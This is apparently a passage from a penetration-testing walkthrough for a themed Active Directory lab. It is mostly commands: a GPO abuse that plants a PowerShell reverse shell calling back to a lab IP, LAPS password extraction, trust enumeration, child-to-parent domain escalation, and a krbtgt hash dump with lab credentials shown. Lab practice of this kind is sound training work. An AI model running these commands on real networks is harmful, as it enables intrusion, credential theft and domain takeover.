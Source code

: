 ```
python3 pygpoabuse.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -gpo-id "6F8BD644-2C29-418C-93F1-FE926F91F6B4" -powershell -command "\$c = New-Object System.Net.Sockets.TCPClient('192.168.56.1',4444);\$s = \$c.GetStream();[byte[]]\$b = 0..65535|%{0};while((\$i = \$s.Read(\$b, 0, \$b.Length)) -ne 0){    \$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$b,0, \$i);    \$sb = (iex \$d 2>&1 | Out-String );    \$sb = ([text.encoding]::ASCII).GetBytes(\$sb + 'ps> ');    \$s.Write(\$sb,0,\$sb.Length);    \$s.Flush()};\$c.Close()" -taskname "MyTask" -description "don't worry"

# wait or run on the target host the following
gpudate /force
```

## Laps password
```
Get-DomainComputer | where-Object {$_.'ms-mcs-admpwd'} | select dnshostname, ms-mcs-admpwd | ft
cme ldap 192.168.56.12 -d essos.local -u jorah.mormont -p 'H0nnor!' --module laps
```

# Trusts

## Enumerate Trust
```
ldeep ldap -u tywin.lannister -p 'powerkingftw135' -d sevenkingdoms.local -s ldap://192.168.56.10 trusts
ldeep ldap -u tywin.lannister -p 'powerkingftw135' -d sevenkingdoms.local -s ldap://192.168.56.12 trusts
```

## Domain Trust - child/parent (north.sevenkingdoms.local -> sevenkingdoms.local)

### RaiseMeUp - Escalate with impacket raiseChild
To escalate from child to parent the simplest way is with impacket raiseChild.py script, this will do all the work for us.
`raiseChild.py north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!' `

### Golden ticket + ExtraSid
- First dump the krbtgt of the domain we own
```
# dump child ntds and get krbtgt NT hash
secretsdump -just-dc-user north/krbtgt \ 
 north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.11

...
krbtgt:502:aa3b435b51404eeaad3b435b51404ee:13354bc6e1b48fff8d66a2090e909b27:::
..
```
